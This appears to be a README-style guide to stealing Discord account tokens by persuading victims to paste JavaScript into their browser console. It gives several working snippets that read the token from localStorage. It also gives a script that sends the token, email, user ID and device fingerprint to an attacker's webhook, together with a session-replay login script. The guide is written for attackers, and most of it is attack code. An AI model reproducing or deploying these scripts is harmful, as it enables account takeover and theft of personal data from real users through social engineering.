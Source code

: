 ## Discord Matters

### Grabbing the token
Our first step is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. This involves a little social engineering as it requires either you or the victim to run the code and grab the token.

- Method 1: 

Get user to copy and paste this code into browser and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

- Method 2:

Get user to copy and paste this code into browser and token will be automatically sent back to you via discord webhook.

```
location.reload();
var discordWebhook = "YOUR DISCORD WEBHOOK HERE";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Token Grabber",
    avatar_url: "https://malwarefox.com/wp-content/uploads/2017/11/hacker-1.png",
    content: '**Nouvelle personne hackée !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nAdresse email : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nPropriétés : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript de login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));```
